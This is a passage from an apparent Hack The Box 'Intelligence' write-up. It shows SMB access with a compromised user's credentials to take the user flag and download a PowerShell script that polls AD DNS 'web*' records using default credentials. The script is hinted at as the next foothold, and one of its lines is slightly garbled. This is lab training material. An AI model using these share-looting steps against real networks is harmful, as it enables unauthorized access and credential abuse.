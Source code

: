Over 260 files were returned, so we saved a lot of time dumping the list instead of looking by hand. I've cut out most of it and left the three things of interest:

```text
IT Share has a PowerShell script called downdetector.ps1
User folder has another user called Ted.Graves
User flag is on Tiffany's desktop
```

## User Flag

Let's get the flag before looking at the PowerShell script:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbclient //intelligence.htb/Users -U 'Tiffany.Molina'
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> cd Tiffany.Molina\Desktop\
smb: \Tiffany.Molina\Desktop\> get user.txt
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

┌──(root💀kali)-[~/htb/intelligence]
└─# cat user.txt 
<HIDDEN>
```

## PowerShell Loot

Now let's have a look at that PowerShell script:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbclient  //intelligence.htb/IT -U 'Tiffany.Molina'
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> get downdetector.ps1
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (9.0 KiloBytes/sec) (average 9.0 KiloBytes/sec)
```

```powershell
┌──(root💀kali)-[~/htb/intelligence]
└─# cat downdetector.ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
